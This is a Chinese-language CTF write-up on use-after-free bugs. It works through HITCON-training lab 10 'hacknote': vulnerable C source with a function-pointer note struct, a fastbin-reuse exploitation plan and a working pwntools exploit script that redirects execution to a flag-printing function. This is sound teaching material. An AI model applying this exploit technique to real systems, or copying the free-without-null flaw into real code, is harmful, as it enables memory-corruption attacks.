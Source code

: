 <a name="use_after_free"></a>
# use_after_free

<a name="b6724cff"></a>
## 原理

 简单的说，Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用。但是其实这里有以下几种情况：

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么**程序很有可能可以正常运转**。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，**就很有可能会出现奇怪的问题**。

而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。

<a name="a0f671d4"></a>
## HITCON-training lab 10 hacknote

程序源码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

struct note {
  void (*printnote)();
  char *content;
};

struct note *notelist[5];
int count = 0;

void print_note_content(struct note *this) { puts(this->content); }
void add_note() {
  int i;
  char buf[8];
  int size;
  if (count > 5) {
    puts("Full");
    return;
  }
  for (i = 0; i < 5; i++) {
    if (!notelist[i]) {
      notelist[i] = (struct note *)malloc(sizeof(struct note));
      if (!notelist[i]) {
        puts("Alloca Error");
        exit(-1);
      }
      notelist[i]->printnote = print_note_content;
      printf("Note size :");
      read(0, buf, 8);
      size = atoi(buf);
      notelist[i]->content = (char *)malloc(size);
      if (!notelist[i]->content) {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, notelist[i]->content, size);
      puts("Success !");
      count++;
      break;
    }
  }
}

void del_note() {
  char buf[4];
  int idx;
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= count) {
    puts("Out of bound!");
    _exit(0);
  }
  if (notelist[idx]) {
    free(notelist[idx]->content);
    free(notelist[idx]);
    puts("Success");
  }
}

void print_note() {
  char buf[4];
  int idx;
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= count) {
    puts("Out of bound!");
    _exit(0);
  }
  if (notelist[idx]) {
    notelist[idx]->printnote(notelist[idx]);
  }
}

void magic() { system("cat flag"); }

void menu() {
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  printf("Your choice :");
};

int main() {
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char buf[4];
  while (1) {
    menu();
    read(0, buf, 4);
    switch (atoi(buf)) {
    case 1:
      add_note();
      break;
    case 2:
      del_note();
      break;
    case 3:
      print_note();
      break;
    case 4:
      exit(0);
      break;
    default:
      puts("Invalid choice");
      break;
    }
  }
  return 0;
}
```

<a name="36bfad43"></a>
#### add note 功能：

1. 申请一个八字节的内存用来存放put函数指针和content指针
2. 根据输入的size值来申请内存，用来存放real content

申请后的内存分布如图：<br />![](https://img-blog.csdnimg.cn/20210221163112702.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=e68k7&originHeight=151&originWidth=516&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

程序Delete note功能，只对内存进行了free，而没有将对应的指针置为NULL，导致use_after_free;<br />![](https://img-blog.csdnimg.cn/20210221163137289.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=q90Xg&originHeight=126&originWidth=411&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

存在后门函数：<br />![](https://img-blog.csdnimg.cn/20210221163156697.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=ElZ2m&originHeight=37&originWidth=429&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

程序Print note功能是通过指针函数调用函数的，**一个很直接的想法是修改 note 的 put 字段为 magic 函数的地址，从而实现在执行 print note 的时候执行 magic 函数。**

<a name="1a7f5c22"></a>
### 利用思路：

1.  申请 note0，real content size 为 32，输入的content为“aaaa”（大小与 note 大小所在的 bin 不一样即可）<br />![](https://img-blog.csdnimg.cn/2021022116325585.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=IPj2E&originHeight=306&originWidth=778&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
2.  申请 note1，real content size 为 32，输入的content为“bbbb”（大小与 note 大小所在的 bin 不一样即可）<br />![](https://img-blog.csdnimg.cn/20210221163326624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=znZWj&originHeight=283&originWidth=678&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
3.  释放 note0，内存会进入fastbin中，且content chunk和note chunk会进入不同的位置 
4.  释放 note1 
5.  此时，大小为 0x10 的 fast bin chunk 中链表为 note1->note0<br />![](https://img-blog.csdnimg.cn/20210221163405277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Uokbf&originHeight=720&originWidth=871&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
6.  申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则：<br />note2 其实会分配 note1 对应的内存块。<br />real content 对应的 chunk 其实是 note0。<br />![](https://img-blog.csdnimg.cn/20210221163502412.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=OJXRc&originHeight=651&originWidth=867&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=) 
7.  如果我们这时候向 note2 real content 的 chunk 部分写入 magic 的地址，那么由于我们没有 note0 为 NULL。当我们再次尝试输出 note0 的时候，程序就会调用 magic 函数。 

<a name="964d959d"></a>
### 利用脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "bbbb") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```
